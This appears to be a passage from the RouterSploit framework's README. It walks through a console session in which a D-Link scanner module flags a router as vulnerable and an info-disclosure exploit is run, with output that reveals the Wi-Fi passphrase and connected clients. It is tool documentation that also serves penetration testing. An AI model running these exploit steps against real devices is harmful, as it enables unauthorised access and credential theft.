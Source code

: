Scanners allow you to quickly verify if the target is vulnerable to any exploits.

### Pick module

    rsf > use scanners/dlink_scan
    rsf (D-Link Scanner) > show options


### Options

    Target options:

       Name       Current settings     Description                                
       ----       ----------------     -----------                                
       target                          Target address e.g. http://192.168.1.1     
       port       80                   Target port                                

Set target:

    rsf (D-Link Scanner) > set target 192.168.1.1
    [+] {'target': '192.168.1.1'}

### Run module

    rsf (D-Link Scanner) > run
    [+] exploits/dlink/dwr_932_info_disclosure is vulnerable
    [-] exploits/dlink/dir_300_320_615_auth_bypass is not vulnerable
    [-] exploits/dlink/dsl_2750b_info_disclosure is not vulnerable
    [-] exploits/dlink/dns_320l_327l_rce is not vulnerable
    [-] exploits/dlink/dir_645_password_disclosure is not vulnerable
    [-] exploits/dlink/dir_300_600_615_info_disclosure is not vulnerable
    [-] exploits/dlink/dir_300_600_rce is not vulnerable

    [+] Device is vulnerable!
     - exploits/dlink/dwr_932_info_disclosure

It has been verified that the target is vulnerable to dwr\_932\_info\_disclosure exploit. Now use the proper module and exploit target.

    rsf (D-Link Scanner) > use exploits/dlink/dwr_932_info_disclosure
    rsf (D-Link DWR-932 Info Disclosure) > set target 192.168.1.1
    [+] {'target': '192.168.1.1'}
    rsf (D-Link DWR-932 Info Disclosure) > exploit
    [*] Running module...
    [*] Decoding JSON value
    [+] Exploit success

       Parameter                  Value                                                                                                 
       ---------                  -----                                                                                                 
       get_wps_enable             0                                                                                                     
       wifi_AP1_enable            1                                                                                                     
       get_client_list            9c:00:97:00:a3:b3,192.168.0.45,IT-PCs,0>40:b8:00:ab:b8:8c,192.168.0.43,android-b2e363e04fb0680d,0     
       wifi_AP1_ssid              dlink-DWR-932                                                                                         
       get_mac_address            c4:00:f5:00:ec:40                                                                                     
       wifi_AP1_security_mode     3208,8                                                                                                
       wifi_AP1_hidden            0                                                                                                     
       get_mac_filter_switch      0                                                                                                     
       wifi_AP1_passphrase        MyPaSsPhRaSe                                                                                          
       get_wps_mode               0

# License

The RouterSploit Framework is under a BSD license.
Please see [LICENSE](LICENSE) for more details.
